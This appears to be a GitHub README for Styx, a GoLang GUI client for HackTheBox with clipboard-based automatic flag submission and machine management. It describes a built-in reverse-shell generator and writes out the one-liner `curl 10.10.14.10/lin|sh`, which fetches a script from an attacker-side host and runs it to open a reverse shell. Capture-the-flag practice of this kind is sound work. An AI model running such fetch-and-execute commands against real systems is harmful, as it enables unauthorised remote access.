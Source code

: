 # styx
 Styx is an cross-platform GUI interface for HackTheBox made in GoLang. Styx's UI is made with the [giu](https://github.com/AllenDang/giu) library.

 ## Features
 **Automatic Flag Submission** 
 Styx will continuously check the machine clipboard for any user or root flags, and will submit them automatically through HackTheBox's APIs. 
 **Built-in Reverse Shell Generator** 
 Styx contains a simple HTTP server that listens on port :61337 and returns pre-made reverse-shell scripts for Linux. Allowing you to quickly get a reverse shell with a simple  `curl 10.10.14.10/lin|sh` 
 **Machine Management** 
 Styx allows the user to start and stop machines on their own behalf. Flag submission is handled by the **auto flag submission** feature. 
 
